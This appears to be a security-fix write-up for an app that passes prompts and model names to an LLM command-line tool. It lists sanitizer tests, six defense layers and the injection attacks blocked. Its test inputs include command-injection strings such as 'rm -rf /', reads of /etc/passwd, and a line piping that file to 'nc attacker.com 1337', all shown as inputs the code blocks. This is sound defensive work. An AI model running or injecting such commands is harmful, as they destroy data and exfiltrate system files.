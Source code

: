```python
from app.services.codex_llm import _sanitize_prompt, _validate_model_name

# Test 1: Normal prompt
_sanitize_prompt('What is the cardiac cycle?')  # ✅ Accepted

# Test 2-5: Injection attempts
_sanitize_prompt('test; rm -rf /')  # ✅ Blocked
_sanitize_prompt('test | cat /etc/passwd')  # ✅ Blocked
_sanitize_prompt('test `whoami`')  # ✅ Blocked
_sanitize_prompt('test $(cat /etc/passwd)')  # ✅ Blocked

# Test 6: Valid model name
_validate_model_name('gpt-5')  # ✅ Accepted

# Test 7: Model name injection
_validate_model_name('gpt-5; rm -rf /')  # ✅ Blocked
```

**✅ All manual tests passing - Security validations working correctly**

---

## Defense-in-Depth Summary

The fix implements **6 layers** of security so that even if one layer is bypassed, others will catch the attack:

| Layer | Protection | Status |
|-------|-----------|--------|
| 1. CLI Path Validation | Whitelist + symlink support + executability check | ✅ Active |
| 2. Input Sanitization | Length limits + null byte detection + metacharacter blocking | ✅ Active |
| 3. Input Validation | Regex pattern matching + type checking | ✅ Active |
| 4. Safe Command Building | List-based subprocess execution | ✅ Active |
| 5. Shell Escaping | shlex.quote() for all arguments | ✅ Active |
| 6. Security Logging | All validation failures logged with context | ✅ Active |

---

## Attack Vectors Mitigated

### ✅ Prompt-Based Injection
**Before**: `"Normal question; rm -rf / #"`
**After**: ❌ Blocked by prompt sanitization

### ✅ Model Name Injection
**Before**: `"gpt-5; cat /etc/passwd | nc attacker.com 1337"`
**After**: ❌ Blocked by model name validation
